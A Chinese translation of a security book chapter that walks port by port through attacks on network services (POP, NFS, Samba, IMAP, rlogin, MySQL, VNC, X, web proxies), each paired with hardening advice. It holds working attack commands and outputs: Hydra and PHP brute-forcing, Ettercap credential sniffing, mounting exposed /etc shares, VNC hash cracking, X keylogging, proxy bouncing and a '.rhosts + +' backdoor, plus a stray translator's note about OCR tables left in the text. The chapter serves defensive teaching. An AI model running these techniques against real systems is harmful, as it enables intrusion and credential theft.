提交修改后的表单后，*shippingcharges* 字段的值 -99 将传递给易受攻击的 web 应用程序。如果 web 应用程序盲目接受此值，且目标是一个电子商务网站，用户可能会在其信用卡上产生一笔信贷！

### 不要信任隐藏的 HTML 元素

web 应用程序开发人员不应信任隐藏 HTML 元素的值。进行 web 应用程序审查以确保不信任隐藏 HTML 元素的值是个好主意。

## 源代码注释

在 web 应用程序开发阶段，程序员通常在 CGI 或 HTML 源代码中放置注释是很常见的。这些注释帮助开发人员与同事程序员分享细节。源代码注释可能包含关键信息，例如数据库服务器的密码。有时，当 web 应用程序投入生产时，这些注释会被忽视：

```
<!--
NOTE: Mike, please use the following username and password
to access the local mysql server: root, drdr3emenem
Comment placed by John at 12:15am, 2/12/2003
-->
```

### 审计源代码注释

定期审计源代码注释是个好主意。使用如 `grep` 和 `wget` 等工具查找 web 应用程序源代码和 HTML 代码中的注释。

## Web 服务器漏洞

Apache 是当今使用最广泛的 web 服务器。多年来，它一直相当安全。以下段落代表了一个近期的 Apache 漏洞。

- **Apache Web 服务器分块处理漏洞** 在 Apache web 服务器处理分块编码数据的方式中发现了一个可远程利用的漏洞。此漏洞使得能够在 Apache 服务器上远程执行任意命令。更多详细信息可以在 [http://www.cert.org/advisories/CA-2002-17.html](http://www.cert.org/advisories/CA-2002-17.html) 找到。

## POP2 (Post Office Protocol 2)：109 (TCP)

POP2 是用于从邮件服务器访问电子邮件的协议。

**暴力破解** 由于 POP2 认证使用用户名和密码对完成，该协议容易受到暴力破解攻击。

**嗅探** 由于 POP2 是明文协议，因此可以嗅探通过网上传输的 POP2 流量。

### 嗅探 POP2 流量

可以使用如 Ettercap 这样的工具来嗅探 POP2 数据。当使用 `~C` 选项时，`ettercap` 命令会自动过滤并显示通过网络传输的 POP2 用户名和密码。

### 通过 SSH 隧道传输 POP2 流量

使用 SSH 的端口转发选项安全地隧道传输 POP2 流量：

```
ssh -L109:127.0.0.1:109 username@pop2server.somecompanysanexanmple.com
```

## POP3 (Post Office Protocol 3)：110 (TCP)

POP3 是用于从邮件服务器访问电子邮件的协议。

**暴力破解** 由于 POP3 认证使用用户名和密码对完成，该协议容易受到暴力破解攻击。

### 暴力破解 POP3

可以使用 Hydra 来暴力破解 POP3 账户：

```
(bash)$ hydra -L usernames.txt -P passwords.txt 10.0.0.1 pop3
Hydra v2.2 (c) 2002 by van Hauser / THC - use allowed only for legal purposes.
Hydra is starting: !parallel tasks: 4, login tries: 16 (1:4/p:4)
[110][pop3] login: root password: n4mr4t441550cuc3
Hydra finished.
```

### 防止 POP3 暴力破解

请参阅“防止暴力破解攻击的通用防御措施”。

**嗅探** 由于 POP3 是明文协议，因此可以嗅探在网上传输的 POP3 数据。

### 嗅探 POP3 密码

可以使用如 Ettercap 这样的工具来嗅探网络上的 POP3 用户名和密码：

```
(bash)$ ettercap -C -n -m

tettercap 0.6.7 (c) 2002 LloR & NaGA

Your IP: 192.168.1.1 with MAC: 00:01:1A:32:AB:32 on iface: eth0

Loading plugins... Done.

Resolving 1 hostnames...

* | =================== | 100.00 %

Press 'h' for help...

Sniffing (MAC based): ANY <---> ANY
```


```
TCP + UDP packets... (default)

Collecting passwords...

03:35:26 192.168.1.1:49565 <--> 10.0.0.1:110

USER: blamkzman
PASS: b11l13j34h
```

## 通过 SSH 隧道传输 POP3 流量

使用 SSH 的端口转发选项可安全地通过隧道传输 POP3 流量：

```
ssh -L110:127.0.0.1:110 username@pop3server.somecompanyasanexample.com
```

## 端口映射器 (Portmapper)：111 (TCP)

基于 RPC（远程过程调用）的服务，如 NIS（网络信息服务），并不监听静态端口。这些服务会将其端口号注册到端口映射器中。

> 可以使用 `rpcinfo` 命令查询端口映射器中注册的 RPC 服务：`rpcinfo -p hostname`。

**配置错误** NFS 是一种允许通过网络远程访问共享文件的协议。配置不当的 NFS 安装允许未认证用户访问存储关键或隐私数据的网络共享。

### 查询并挂载远程 NFS 共享

使用 `showmount` 程序查询远程主机上的 NFS 共享：

```
[bash]$ /usr/sbin/showmount --all sun1.somecompanyasanexample.com
All mount points on sun1.somecompanyasanexample.com:
all:/etc
```

在此示例中，sun1.somecompanyasanexample.com 的配置错误，导致其 /etc 目录向所有人共享。攻击者可以挂载该 /etc 目录：

```
[bash]$ mount -t NFS sun1.somecompanyasanexample.com:/etc /mnt/etc
```

现在，攻击者可以通过发出以下命令查看 sun1.somecompanyasanexample.com 的 /etc/passwd 文件：

```
cat /mnt/etc/passwd
```

### 阻止和加固 NFS

如果主机上正在运行 NFS，请考虑以下建议：

- 如果未使用 NFS，考虑将其关闭。
- 配置防火墙以阻止 NFS 流量。NFS 运行在端口 2049 上。
- 编辑 /etc/dfs/dfstab 和 /etc/exports，确保没有向未授权主机提供共享服务。

**软件漏洞** RPC 服务易受许多漏洞的影响，这些漏洞可能导致远程系统被入侵。以下漏洞列举了一些 RPC 服务的安全公告。

- **xdr_array 中的缓冲区溢出漏洞** 由于 xdr_array() RPC 中存在缓冲区溢出漏洞，远程攻击者有可能在目标主机上执行任意代码。更多信息请参见 http://securityfocus.com/bid/5356。

- **xfsmd 中的远程命令执行漏洞** 此漏洞影响了 SGI IRIX 实现。由于传递给 RPC 的参数未进行适当的过滤，攻击者可以嵌入 `";"` 和 `"|"` 等元字符。这些参数随后被传递给 popen() 函数调用，使攻击者能够在目标机器上执行命令。详细信息请参见 http://securityfocus.com/bid/5075。

- **yppasswd 中的缓冲区溢出漏洞** 在 yppasswd 的实现中发现了一个由于边界检查不当引起的缓冲区溢出漏洞。利用此漏洞可能以管理员权限在目标机器上执行命令。更多信息请参见 http://securityfocus.com/bid/2763。

- **statd 中的远程格式化字符串漏洞** 此漏洞影响了随各种 Linux 发行版分发的 rpc.statd 程序。由于 rpc.statd 无法对用于调用 syslog() 函数的用户输入数据进行适当的输入验证，恶意用户可以提供特制数据使其在目标主机上执行。详情可在 http://securityfocus.com/bid/1480 获取。

因此，如果主机正在运行任何 RPC 服务，请考虑以下建议：

- 许多发行版在安装时会启用各种 RPC 服务。请禁用不需要的 RPC 服务。
- 如果不需要 RPC 服务，请禁用端口映射器服务。
- 配置防火墙以禁止远程用户连接到 RPC 服务。

## NNTP（网络新闻传输协议）：119 (TCP)

NNTP 是一种用于分发、查询、检索和发布新闻文章的协议。

**暴力破解** 许多 NNTP 服务器不需要身份验证。然而，可以使用 Hydra 等暴力破解工具对需要身份验证的 NNTP 服务器进行暴力破解。

### 暴力破解 NNTP

使用 Hydra 暴力破解 NNTP 账户。以下是操作方法示例：

```
hydra -L usernames.txt -P passwords.txt 10.0.0.1 nntp
```

### 防止 NNTP 暴力破解

请参见“暴力破解攻击的通用防御措施”。

**嗅探** 由于 NNTP 是一种明文协议，因此可以嗅探网络上传输的 NNTP 数据。

### 嗅探 NNTP 认证数据

可以使用 Ettercap 等工具嗅探网络上的 NNTP 流量。以下是如何使用 Ettercap 捕获 NNTP 认证数据：

```
ettercap -C -N -m
```

### 通过 SSH 隧道传输 NNTP

使用 SSH 安全地通过隧道传输 NNTP 流量：

```
ssh username@remotenntpaserver.somecompanyasanexample.com -L119:127.0.0.1:119
```

### Samba：137 至 139 (TCP)

Samba 使用 SMB（服务器消息块）协议在网络上共享文件和打印机。SMB 最常用于 Microsoft Windows 操作系统。关于 Samba 项目的详细信息请参见 http://www.samba.org/。

**暴力破解** 由于 Samba 使用用户名和密码对进行身份验证，因此可以暴力破解用户账户。

#### 暴力破解 Samba

可以使用 Hydra 暴力破解 SMB 身份验证：

```bash
$ hydra -L usernames.txt -P passwords.txt 10.0.0.1 smb
Reduced number of tasks to 1 (smb does not like parallel connections)
Hydra v2.2 (c) 2002 by van Hauser / THC - use allowed only for legal
purposes.
  Hydra is starting! [parallel tasks: 1, login tries: 2 (1:2/p:1)]
[139][smb] login: Joe password: Sh4k3$1s0und!
Hydra finished.
```

#### 防止 Samba 暴力破解

> 请参见“暴力破解攻击的通用防御措施”。

**嗅探** 可以嗅探 Samba 身份验证过程中通过网络传输的密码哈希值。捕获哈希值后，必须通过暴力破解才能获得真实密码。

#### 获取 Samba 密码哈希值

可以使用 Ettercap 捕获身份验证期间通过网络发送的 Samba 哈希值。例如，以下是运行 Ettercap 以收集网络上传输的 SMB 密码哈希值的方法：

```
ettercap -C -N -m
```

可以使用 John the Ripper 等密码破解工具（可从 http://www.openwall.com/john/ 获取）来破解获取的哈希值。

#### 安全地通过隧道传输 Samba 流量

> 请参见“阻止和通过隧道传输 Samba 流量”。

## Samba 配置错误

Samba 经常被错误配置，导致与包含关键数据的文件系统共享。远程用户可以利用此漏洞获取位于受害主机上的敏感系统文件。


### 枚举并挂载远程 Samba 共享

使用 Samba 的 smbclient 命令查找远程系统正在导出的文件共享：

```bash
[bash]$ smbclient -L smbserver -I 192.168.1.10 -U ''
added interface ip=192.168.1.1 bcast=192.168.1.255 nmask=255.255.255.0
Password: [enter]
Domain=[SOMECOMPANY]  OS=[Unix]  Server=[Samba 2.2.7]
```

| Sharename | Type | Comment |
| :--- | :--- | :--- |
| Server | Comment | |
| Workgroup | Master | |

*注意：此处 OCR 识别出的表格结构很可能是 `smbclient` 输出格式产生的伪影，它先列出标题然后列出详情。基于标准的 `smbclient` 输出，通常先列出共享，然后服务器信息，最后工作组。原始 OCR 文本提供了空列。我将把它格式化为所提及字段的清晰表示。*

实际上，查看原始 OCR：
`| Sharename | Type | Comment |`
`| Server | Comment |`
`| Workgroup | Master |`

这是标题的混乱组合。通常 `smbclient -L` 的输出看起来像这样：
```
   Sharename       Type      Comment
   -----------       -----     -------
   IPC           IPC       (no comment)
   print       DISK      (no comment)
   etc           DISK      (no comment)

   Server           Comment
   -------------    -------
   smbserver       Samba 2.2.7
   Workgroup        Master
   -------        -------
   SOMECOMPANY    smbserver
```

OCR 捕获了标题。我将在保持可读性的同时尽可能保留信息，或者简单地清理提示中提供的标题，而不发明不存在的数据，但提示要求“恢复正常缩进”并将“类文本转换为 Markdown 表格”。既然 OCR 明确列出了 `| Sharename | Type | Comment |` 等，我将把这些格式化为它们似乎所代表的结构，很可能是输出的三个部分的标题。

但是，下一段说“现在，由于前面的服务器显然配置错误……”。

```bash
mount -t smbfs -o username='' //192.168.1.10/etc /mnt/smbshare
```

挂载 /etc 共享后，入侵者可以获取 /etc/passwd 文件，该文件在其或他的主机上表现为 /mnt/smbshare/passwd。


### 阻止和通过隧道传输 Samba 流量

如果正在运行 Samba，请考虑以下建议：

- 配置防火墙以阻止 Samba 流量。

- 考虑使用 SSH 通过隧道传输 Samba 流量：

```bash
ssh username@remotesmbserver.somecompanyasanexample.com -L139:127.0.0.1:139
```

## 远程服务


## IMAP2/IMAP4（互联网消息访问协议 2/4）：143（TCP）

IMAP2/4 是一种用于从邮箱服务器访问电子邮件的电子邮件访问协议。其功能包括能够在远程位置存储电子邮件。

### 暴力破解

IMAP 认证容易遭受暴力破解攻击。

### 暴力破解 IMAP

可以使用 Hydra 对 IMAP 进行暴力破解：

```
[bash]$ hydra -L usernames.txt -P passwords.txt -s 143 192.168.1.1 imap
Hydra v2.2 (c) 2002 by van Hauser / THC - use allowed only for legal purposes.
Hydra is starting! [parallel tasks: 4, login tries: 4 (1:1/p:4)]
[143][imap] login: pardesi password: estd1948!!
Hydra finished.
```

### 防止 IMAP 暴力破解

请参阅“防止暴力破解攻击的通用防御措施。”

### 嗅探

可以嗅探通过网络传输的 IMAP 流量。

### 嗅探 IMAP 流量

可以使用网络嗅探工具（如 Ettercap 和 Ethereal）来捕获网络上正在传输的 IMAP 数据。

### 安全替代方案

如果使用 IMAP，请考虑根据以下建议进行操作：

- 使用 SSH 建立隧道来传输 IMAP 流量：
    ssh -L143:127.0.0.1:143 username@imapserver.somcompanyasnameexample.com
- 使用 IMAPS 作为 IMAP 的安全替代方案。

## HTTPS（安全超文本传输协议）：443（TCP）

HTTPS 是基于 SSL（安全套接字层）的 HTTP。HTTPS 使用 SSL 来建立和维护安全通道，因此提供客户端与服务器之间的加密通信。

可以使用命令行 `openssl` 工具连接到 HTTPS 服务器：

```
openssl s_client -connect:server_ipaddress:443
```

OpenSSL 可在 http://www.openssl.org/ 获取。

**软件漏洞** 以下段落描述了一个近期的 OpenSSL 漏洞：

- **OpenSSL SSLv2 缓冲区溢出** OpenSSL 是 SSL 协议的开源实现。发现 0.9.6e 之前的 OpenSSL 版本包含一个缓冲区溢出漏洞，可能导致在服务器上执行任意代码。详情请参阅 http://www.kb.cert.org/vuls/id/102795。

## rexec：512（TCP）

`rexec` 命令可用于在远程主机上运行命令并显示其输出。由于 `rexec` 使用与 `rlogin` 类似的机制，请参阅下文“rlogin：513（TCP）”部分。

## rlogin：513（TCP）

`rlogin` 命令用于与远程主机建立终端会话。

**暴力破解** 由于需要使用用户名和密码组合来对 `rlogin` 进行认证，因此可以使用 Hydra 等暴力破解工具。

**嗅探** 登录服务使用明文协议。可以使用 Ettercap 或 Ethereal 等网络嗅探工具来嗅探网络上的 rlogin 流量。

**rlogin 配置错误** 为了便于免密码登录，用户可能需要在其 home 目录中放置一个名为 .rhosts 的文件，内容如下：

```
mukumouse.somecompanyasanexample.com  jack
```

这将允许来自 mukumouse.somecompanyasanexample.com 的用户 jack 无需密码即可通过 rlogin 登录到放置了上述 .rhosts 文件的主机上的其账户。

### .rhosts 配置错误

考虑用户 home 目录中内容如下所示的 .rhosts 文件：

```
+  +
```

这样的文件将允许任何主机的任何用户免密码登录到该用户的账户。

> 远程账户被攻陷后，入侵者可能会在受害者的 home 目录中放置一个内容仅为“+ +”的 .rhosts 文件，正如刚刚所示的那样。这允许入侵者持续访问受害者的账户。此外，由于 .rhosts 文件以点号开头，当受害用户使用 ls 命令执行目录列表时，该文件不会显示（除非用户在 ls 命令中指定了 -a 标志）。

### 禁用 rlogin 并考虑替代方案

如果正在运行 rlogin 服务，请考虑以下建议：

- 通过注释 inetd.conf 文件中的相应行来禁用 rsh、rlogin 和 rexec 服务。
- 考虑使用 SSH 作为安全的替代方案。

## rsh：514（TCP）

rsh 命令用于在远程机器上执行命令。由于 rsh 使用与 rlogin 类似的机制，请参阅上文“rlogin：513（TCP）”部分。

## NNTPS（安全网络新闻传输协议）：563（TCP）

NNTPS 是基于 SSL（安全套接字层）的 NNTP。NNTPS 使用 SSL 来建立和维护安全通道，因此提供客户端与服务器之间的加密通信。

可以使用命令行 openssl 工具连接到 NNTPS 服务器：

```
openssl s_client -connect:192.168.1.1:563
```

OpenSSL 可在 **http://www.openssl.org/** 获取。

有关更多信息，请参阅“NNTP（网络新闻传输协议）：119（TCP）”。

## IMAPS（安全互联网消息访问协议）：993（TCP）

IMAPS 是基于 SSL（安全套接字层）的 IMAP。IMAPS 使用 SSL 来建立和维护安全通道，因此提供客户端与服务器之间的加密通信。

可以使用命令行 openssl 工具连接到 IMAPS 服务器：

```
openssl s_client -connect:192.168.1.1:993
```

OpenSSL 可在 http://www.openssl.org/ 获取。

有关更多信息，请参阅前文“IMAP2/IMAP4（互联网消息访问协议 2/4）：143（TCP）”部分。

## POP3S（安全邮局协议 3）：995（TCP）

POP3S 是基于 SSL（安全套接字层）的 POP3。POP3S 使用 SSL 来建立和维护安全通道，因此提供客户端与服务器之间的加密通信。

可以使用命令行 openssl 工具连接到 POP3S 服务器以获取横幅信息：

```
openssl s_client -connect:192.168.1.1:995
```

OpenSSL 可在 http://www.openssl.org/ 获取。

有关更多信息，请参阅前文“POP3（邮局协议 3）：110（TCP）”部分。

## NFS：2049（TCP 和 UDP）

请参阅前文“Portmapper：111（TCP）”部分。

## MySQL：3306（TCP）

MySQL 是一个流行的开源数据库软件包。可从 http://www.mysql.com 获取。

**暴力破解** 由于 MySQL 使用用户名和密码对进行认证，因此可以对其进行暴力破解攻击。

### 暴力破解 MySQL

以下 PHP 脚本可用于对 MySQL 服务器进行暴力破解：

```php
<?
/**
Author: Nitesh Dhanjani [ hacknotes@dhanjani.com ]
This script attempts a brute-force attack on MySQL servers. Please
make sure $usernamefile and $passwordfile are set to filenames
containing usernames and passwords to attempt.
*/
$usernamefile="usernames.txt";
$passwordfile="passwords.txt";

if($argc != 2)
(
    print "Usage: $argv[0] hostname\n";
    exit();
)
$filehandle=@fopen($usernamefile,"r");
$pflehandle=@fopen($passwordfile,"r");
if(!$filehandle)||(!pflehandle))
{
    print("Could not open username or password file.\n");
    exit();
}
while($username=@fscanf($filehandle,"%s\n"))
{
    while($password=@fscanf($pflehandle,"%s\n"))
        if(@mysql_connect ($argv[1],$username[0],$password[0]))
            print("SUCCESS! : $username[0], $password[0]\n");
}
print("DONE\n");
?>
```

让我们将上述文件命名为 mssqlbrute.php。以下是该脚本的使用示例：

```
[bash]$ php -f mssqlbrute.php mssql,somecompanypassanexample.com
SUCCESS!: root, sqlMyP455!
DONE
```

PHP 编程语言解释器可从 http://www.php.net/ 下载。

### 防止 MySQL 暴力破解

请参阅“防止暴力破解攻击的通用防御措施。”

### 嗅探

MySQL 使用明文协议来建立客户端与服务器之间的连接。因此，网络段上的用户可以嗅探 MySQL 会话。

### 嗅探 MySQL 流量

可以使用 Ettercap 在认证过程中捕获通过网络发送的 MySQL 哈希值（图 4-1）。此外，由于 MySQL 使用明文机制传输数据，可以使用 Ettercap 或 Ethereal 等网络分析器来监视用户会话。Ethereal 可从 http://www.ethereal.com/ 下载。



图 4-1。可以使用 Ethereal 捕获 MySQL 会话。

### 阻止并加固 MySQL

如果在主机上运行 MySQL 服务器，请考虑以下建议：

- 配置防火墙以阻止到 MySQL 服务器的传入连接。在大多数情况下，只需允许本地 MySQL 访问即可。
- 加固 MySQL 配置，使其不接受来自远程用户的连接。请参阅 http://www.mysql.com/documentation/mysql/bychapter/manual_MySQL_Database_Administration.html#Privilege_system 获取详细指令。

## VNC（虚拟网络计算）：5800+，5900+（TCP）

VNC 是一种远程控制软件包，允许用户访问远程主机的桌面。VNC 是免费软件，可从 http://www.realvnc.com/ 下载。

### 暴力破解

VNC 实例仅需一个密码即可进行认证。因此，可以远程暴力破解 VNC 账户。

### 暴力破解 VNC

可以使用位于 http://www.phenoelit.de/vncrack/ 的 vncrack 工具对 VNC 进行暴力破解尝试。

```
[bash]$ vncrack -h 10.0.0.1 -w passwords.txt

VNCCrack - by Phenoelit (http://www.phenoelit.de/)
```


#### 防止 VNC 暴力破解

此外，VNC 用户包含 VNC 密码哈希值的 `~/.vnc/passwd` 文件也可能遭受暴力破解：

```bash
[bash]$ vncrack -c - ~/.vnc/passwd

VNC 密码：test123
```

请参阅“针对暴力破解攻击的常见防御措施”。

## 嗅探

可以通过网络嗅探正在传输的 VNC 密码哈希值。一旦获取了密码哈希值，必须通过暴力破解才能揭示出真实的密码。

### 嗅探和破解 VNC 密码

使用 Ettercap 获取服务器质询和客户端响应哈希值：

```bash
[bash]# ettercap -C -m -N

ettercap 0.6.9 (c) 2002 ALoR & NaGA

您的 IP：192.168.1.1，MAC：00:30:23:c1:00:00，接口：eth0

正在加载插件... 完成。

正在为子网掩码 255.255.255.0 构建主机列表，请稍候...

正在解析 1 个主机名...

^ |==================================================================| 100.00 %

按 'h' 获取帮助...

嗅探（基于 MAC）：ANY <---> ANY

TCP + UDP 数据包...（默认）

正在收集密码...

10:04:28 192.168.1.1:6612 <--> 10.0.0.1:5901    VNC
USER: 在显示器 :0 上
PASS:
服务器质询: 612b8f9e6dfe71ba27abff77ff99c106 客户端 3DES:
4e2568a12e5e7825addbdf4d5190d6
```

现在，使用前面讨论过的 vncrack 工具来破解获取到的哈希值：

```bash
[bash]$ vncrack -v -c 612b8f9e6dfe71ba27abff77ff99c106 -r 4e2568a12e5e7825addbdf4d5190d6 -w passwords.txt
VncCrank - 由 Phenoelit 开发 (http://www.phenoelit.de/)
$Revision: 1.17 $

质询: 612b8f9e6dfe71ba27abff77ff99c16
响应 : 4e2568a12e5e7825addbdf4d519d6

>>>>>>>>>>>>
密码: test123
```

VNC 查看器与 VNC 服务器之间的活动流量是未加密的，并且可以被网络段上的某人嗅探到。然而，目前尚不存在任何已知工具能够破译跨网络传输的活动 VNC 流量。

## 通过 SSH 安全隧道传输 VNC 流量

使用 SSH 安全地隧道传输 VNC 流量。详情参见 [http://www.uk.research.att.com/vnc/sshvnc.html](http://www.uk.research.att.com/vnc/sshvnc.html)。

#### VNC 配置错误

可以将 VNC 认证设置为空密码。许多用户选择设置空密码，这允许入侵者完全控制其桌面。

#### 软件漏洞

VNC 软件已知存在若干漏洞。以下是最近公布的一些漏洞列表。

- **TightVNC 服务器认证 Cookie 可预测性漏洞**
  `vncserver` 程序本身是一个 PERL 脚本，负责生成随机的 X 服务器认证 cookie。在 TightVNC 的 `vncserver` 实现中发现了一个漏洞，导致其生成可预测的认证 cookie。这种情况使得攻击者有可能预测出与远程 VNC 服务器进行认证所需的响应。详情参见 [http://securityfocus.com/bid/6905](http://securityfocus.com/bid/6905)。

- **TightVNC 重复质询重放攻击漏洞**
  VNC 认证机制使用质询-响应方案来成功验证用户。这导致 VNC 客户端在每次用户认证时发送不同的密码哈希值。在 TightVNC 软件中发现的漏洞导致 VNC 服务器请求相似的质询-响应。这使得网络段上的恶意用户能够复用之前获取的密码哈希值来冒充其他用户进行认证。更多信息请访问 [http://securityfocus.com/bid/5296](http://securityfocus.com/bid/5296)。

#### X：6000 到 6063（TCP）

X 窗口系统是一种网络透明的窗口系统，用于各种操作系统。它最常用于为 Unix 和 Linux 操作系统提供图形前端。

## X 配置错误

`xhost` 程序用于向允许连接 X 服务器的主机列表中添加和删除主机名。这提供了基本的隐私控制和安全措施。

### 滥用配置错误的 X 服务器

假设 10.0.0.1 上的一位用户正在使用 `xhost` 允许来自 192.168.1.3 的连接：

```bash
[bash]$ xhost +192.168.1.3
正在将 192.168.1.3 添加到访问控制列表
```

现在，192.168.1.3 上的任何拥有账户的用户都可以启动一个 X 程序，并使其显示在运行于 10.0.0.1 上的 X 服务器上。但是，以下命令将导致 X 服务器允许任何主机连接到它：

```bash
[bash]$ xhost +
访问控制已禁用，客户端可以从任何主机连接。
```

假设 192.168.1.3 上的一位恶意用户发出以下命令：

```bash
xwd -display 10.0.0.1:0 -root > screenshot.xwd
```

此命令将创建一个名为 `screenshot.xwd` 的图像文件，其中包含 10.0.0.1 用户 X 会话的屏幕截图（见图 4-2）。可以使用 `xwdc` 命令查看 `screenshot.xwd` 文件：

```bash
xwdc -in screenshot.xwd
```



可以使用 `xscan` 命令记录已发出 `xhost` 命令的远程主机上的击键情况：

```bash
[bash]$ xscan 10.0.0.1
正在扫描主机名 10.0.0.1 ... 
正在连接到 10.0.0.1 (10.0.0.1) 的端口 6000 ...
已连接。
主机 10.0.0.1 正在运行 X。
正在开始记录主机 10.0.0.1:0.0 的键盘输入，写入文件
KEYLOG10.0.0.1:0.0...
```

此 `xscan` 命令会将 10.0.0.1 上用户的所有击键记录到文件 `KEYLOG10.0.0.1:0`。您可以从 [http://packetsstormsecurity.org/](http://packetsstormsecurity.org/) 获取 `xscan`。

还有许多其他工具可供恶意用户利用，以利用用户已发出 `xhost` 命令允许其他主机连接的事实。以下是其中一些工具的列表：

- `xwatchwin` 实时显示远程用户 X 会话中的任何窗口。`xwatchwin` 工具可以从 [http://packetsstormsecurity.org/](http://packetsstormsecurity.org/) 下载。

- `xremotex` 允许您向远程 X 会话发送鼠标和键盘事件。此工具可以从 [http://www.infa.abo.fi/~chakie/xremotex](http://www.infa.abo.fi/~chakie/xremotex) 下载。

- `xxkey` 记录远程用户 X 会话的击键情况，类似于 `xscan`。它可从 [http://packetstormsecurity.org/](http://packetstormsecurity.org/) 获取。

## 阻止和隧道化 X

以下是针对运行 X 服务器的人员的建议：

- 在防火墙上阻止 6000 到 6063 端口。这将禁用外部主机连接到内部 X 服务器。
- 使用 SSH 安全隧道传输 X 流量：
  ```bash
  ssh -X username@remotexserver.somecompanyasanexample.com
  ```

#### Web 代理：（8000+ TCP）

顾名思义，Web 代理用于代理 HTTP 和 HTTPS 流量。

## Web 代理配置错误

Web 代理配置错误可以被利用，方法如本文所述。我们将使用 `desproxy` 命令行工具，该工具利用 HTTP 1.1 支持的 CONNECT 方法通过 Web 代理建立 TCP 连接。可以从 [http://desproxy.sourceforge.net/](http://desproxy.sourceforge.net/) 下载。

## 代理攻击

配置错误的 Web 代理通常允许入侵者进行代理攻击。考虑以下 `desproxy` 命令：

```bash
desproxy 10.0.0.1 23 192.168.1.1 8000 2300
```

发出此命令后，如果入侵者通过本地主机（127.0.0.1）telnet 到端口 2300，他/她将经由监听在端口 8000 的易受攻击的 Web 代理（192.168.1.1）连接到 10.0.0.1 的 telnet 端口（23）。由于受害主机仅记录来自 Web 代理 IP 地址 192.168.1.1 的传入连接，攻击者将成功利用 Web 代理来代理其攻击。

> 如果入侵者已经控制了内部网络上的某台主机，而该网络不允许出站 TCP 连接，那么入侵者可以使用 `desproxy` 通过可用的 Web 代理与外部主机建立 TCP 连接。

## 反向代理攻击

通常，配置错误的 Web 代理可用于建立与存在于 Web 代理主机可访问的内部网络中的主机的连接。在前面的示例中，假设 10.0.0.1 是仅可从 Web 代理（192.168.1.1）所在的内部网络访问的主机的 IP 地址。因此，该示例中的命令将允许攻击者通过易受攻击的 Web 代理连接到内部主机的 telnet 端口。

## 阻止传入连接

配置防火墙规则以阻止传向您组织的 Web 代理的连接。

# 应用程序漏洞

应用程序也存在可能导致运行客户端应用程序的主机被远程攻陷的漏洞。但是，此类漏洞很难在远程进行利用。虽然不可能列出所有已知可被远程利用的应用程序，但这些漏洞记录了一些已知的易受远程攻陷影响的知名应用程序。

## tcpdump 中畸形 NFS 和 BGP 数据包缓冲区溢出漏洞

*tcpdump* 程序是最广泛使用的命令行数据包分析器。在 *tcpdump* 处理畸形 NFS（网络文件系统）数据包时发现了一个缓冲区溢出漏洞。当恶意 NFS 数据包被故意通过网络发送时，该漏洞使得可以在运行 *tcpdump* 的主机上执行任意指令。详情请参见 [http://securityfocus.com/bid/4890](http://securityfocus.com/bid/4890)。

还发现 *tcpdump* 存在另一个漏洞，原因是处理畸形 BGP 数据包不当。更多信息请参见 [http://securityfocus.com/bid/6213](http://securityfocus.com/bid/6213)。

## Netscape/Mozilla POP3 邮件处理器整数溢出漏洞

该漏洞导致当发送恶意数据时，Netscape/Mozilla 浏览器的邮件客户端发生缓冲区溢出状况。


由 POP3 服务器处理。如果攻击者控制了 POP3 服务器，他或她可以迫使 POP3 服务器返回恶意数据，从而在 Netscape/Mozilla 用户的主机上执行任意命令。更多信息请参阅 <http://securityfocus.com/bid/6254>。

## BitcX 远程堆溢出漏洞

BitcX 是一款流行的 IRC（Internet Relay Chat，互联网中继聊天）客户端。当向 BitcX 客户端提供长主机名时，观察到内存损坏的情况。此漏洞可能被恶意的 IRC 服务器利用，以在执行 BitcX 的主机上执行命令。有关此漏洞的信息请参阅 <http://securityfocus.com/bid/7096>。

## PGP4Pine 长消息行缓冲区溢出漏洞

PGP4Pine 为 Pine 电子邮件客户端添加 PGP 支持。在 PGP4Pine 中发现了一个漏洞，该漏洞是由于对包含 PGP 数据的电子邮件进行边界检查不足而引发的。攻击者可以发送精心构造的恶意电子邮件来利用此漏洞，从而在运行 PGP4Pine 的主机上执行任意命令。请参见网站 <http://securityfocus.com/bid/7071> 以获取更多信息。

## 防止应用程序漏洞被利用

建议采取以下措施以最大程度地降低应用程序漏洞的易感性：

- 保持软件补丁为最新状态。
- 订阅漏洞监视列表，例如 Bugtraq。（访问 <http://securityfocus.com/cgi-bin/sfonline/subscribe.pl> 以获取更多信息。参见本书参考中心中的“在线资源”部分，其中提供了许多其他安全资源的链接。）

## Nessus

审计大量主机以排查远程漏洞是一项非常繁重的工作。Nessus 是一款安全扫描器，可用于对一组目标主机运行远程漏洞的自动化检查（见图 4-3）。虽然目前有许多商业网络扫描器可供选择，但 Nessus 值得一提，因为它免费、开源、可靠且非常灵活。扫描完成后，Nessus 会向客户端提供美观的漏洞报告，这些报告可以保存为多种格式，包括 HTML。Nessus 可在 [http://www.nessus.org/](http://www.nessus.org/) 获取。



**图 4-3. 工作中的 Nessus**

Nessus 旨在支持客户端/服务器架构。Nessus 服务器（`nessusd`）负责针对目标主机执行漏洞检查。Nessus 客户端程序（`nessus`）可用于连接服务器以配置和生成检查。Nessus 客户端与服务器之间的通信是经过加密的。

由于 Nessus 的设计非常模块化，编写自己的安全检查很容易。Nessus 安全检查可以使用 C 编程语言或 Nessus 专有的 NASL（Nessus Attack Scripting Language，Nessus 攻击脚本语言）编写。有关 NASL 的详细信息，请参见第 10 章。

## 获取 Shell

一旦攻击者成功利用远程服务或应用程序，通过远程执行受害者主机上的任意命令，他或她就会希望获取远程 shell，以继续利用受害者主机。

### 使用 Netcat 获取远程 Shell

可以采取以下步骤获取远程 shell：
